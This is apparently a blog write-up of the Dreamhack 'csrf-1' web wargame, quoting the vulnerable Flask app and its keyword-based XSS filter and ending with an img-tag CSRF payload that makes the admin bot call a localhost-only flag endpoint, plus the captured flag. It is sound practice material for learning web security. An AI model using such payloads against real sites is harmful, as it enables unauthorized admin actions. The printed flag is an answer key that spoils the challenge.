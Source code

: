 ```yaml
---
title: csrf-1
author: thanguyen165
date: 2023-01-01 07:00:00 +0700
categories: [Practice, dreamhack]
tags: [Web Exploitation, dreamhack]
---
```


* Level: 1
* Link: [https://dreamhack.io/wargame/challenges/26/](https://dreamhack.io/wargame/challenges/26/)

## Description

> It is a service that implements several functions and a bot that checks the entered URL.
>
> Use the CSRF vulnerability to obtain the flag.

### Attached

```py
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        print(str(e))
        # return str(e)
        return False
    driver.quit()
    return True


def check_csrf(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "").lower()
    xss_filter = ["frame", "script", "on"]
    for _ in xss_filter:
        param = param.replace(_, "*")
    return param


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param", "")
        if not check_csrf(param):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", None)
    if text:
        memo_text += text
    return render_template("memo.html", memo=memo_text)


@app.route("/admin/notice_flag")
def admin_notice_flag():
    global memo_text
    if request.remote_addr != "127.0.0.1":
        return "Access Denied"
    if request.args.get("userid", "") != "admin":
        return "Access Denied 2"
    memo_text += f"[Notice] flag is {FLAG}\n"
    return "Ok"


app.run(host="0.0.0.0", port=8000)

```

## Analyzation

We want to get into ```./admin/notice_flag``` to get flag, but ```Access Denied```.

Check the source code
```py
@app.route("/admin/notice_flag")
def admin_notice_flag():
    global memo_text
    if request.remote_addr != "127.0.0.1":
        return "Access Denied"
    if request.args.get("userid", "") != "admin":
        return "Access Denied 2"
    memo_text += f"[Notice] flag is {FLAG}\n"
    return "Ok"
```

So ```request address``` must be ```127.0.0.1``` and ```userid``` must be ```"admin"```.

We need to send request
```
http://127.0.0.1:8000/admin/notice_flag?userid=admin
```

After requesting that url (somehow), the flag will be added to ```memo_text```. Just get into ```/memo``` and get flag

```py
@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", None)
    if text:
        memo_text += text
    return render_template("memo.html", memo=memo_text)
```

Target is clear. Now we need a place to input that url. There it is, ```/flag```.

Get into ```/flag```, the request is
```
http://127.0.0.1:8000/vuln?param=xxx
```

Let's check what will happen when we send request
```py
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "").lower()
    xss_filter = ["frame", "script", "on"]
    for _ in xss_filter:
        param = param.replace(_, "*")
    return param
```

XSS Filter!

There is another way to bypass it: CSRF.

## Solution

```
http://127.0.0.1:8000/vuln?param=<img src="http://127.0.0.1:8000/admin/notice_flag?userid=admin">
```

The flag is
```
DH{11a230801ad0b80d52b996cbe203e83d}
```